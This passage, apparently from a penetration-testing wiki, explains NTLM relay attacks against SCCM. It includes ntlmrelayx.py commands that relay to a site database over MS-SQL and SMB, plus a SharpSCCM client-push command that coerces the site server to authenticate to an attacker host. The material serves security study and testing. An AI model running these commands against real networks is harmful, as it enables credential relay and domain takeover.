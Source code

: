 {% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) (Python) script can be used for that purpose. In the examples below, the `-socks` option is used for more versatility but is not required.

```bash
# targetting MS-SQL
ntlmrelayx.py -t "mssql://siteDatabase.domain.local" -smb2support -socks

# targeting SMB
ntlmrelayx.py -t "siteDatabase.domain.local" -smb2support -socks
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell) can be used as an alternative to [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py), however it doesn't feature the same SOCKS functionality, need in the steps detailed below, meaning the exploitation from Windows system will need to be adapted.
{% endtab %}
{% endtabs %}

Fore more insight on NTLM relay attacks and tools options, see the corresponding page on The Hacker Recipes: [NTLM Relay](ntlm/relay.md).

3. Authentication coercion

The primary site server's authentication can be coerced via automatic client push installation targeting the relay server with [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#). For more information, see the corresponding article "[Coercing NTLM authentication from SCCM](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)" by [Chris Thompson](https://mobile.twitter.com/\_mayyhem). Alternatively, the server's authentication could be coerced with other, more common, coercion techniques ([PrinterBug](print-spooler-service/printerbug.md), [PetitPotam](mitm-and-coerced-authentications/ms-efsr.md), [ShadowCoerce](mitm-and-coerced-authentications/ms-fsrvp.md), [DFSCoerce](mitm-and-coerced-authentications/ms-dfsnm.md), etc.).

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, authentication can be coerced through [PrinterBug](print-spooler-service/printerbug.md), [PetitPotam](mitm-and-coerced-authentications/ms-efsr.md), [ShadowCoerce](mitm-and-coerced-authentications/ms-fsrvp.md), [DFSCoerce](mitm-and-coerced-authentications/ms-dfsnm.md), etc. (not based on triggering the client push installation).

There isn't any UNIX-like alternative to the `SharpSCCM.exe invoke client-push` feature (yet).
{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```powershell
SharpSCCM.exe invoke client-push -mp "SCCM-Server" -sc "<site_code>" -t "attacker.domain.local"
```
{% endcode %}
{% endtab %}
{% endtabs %}
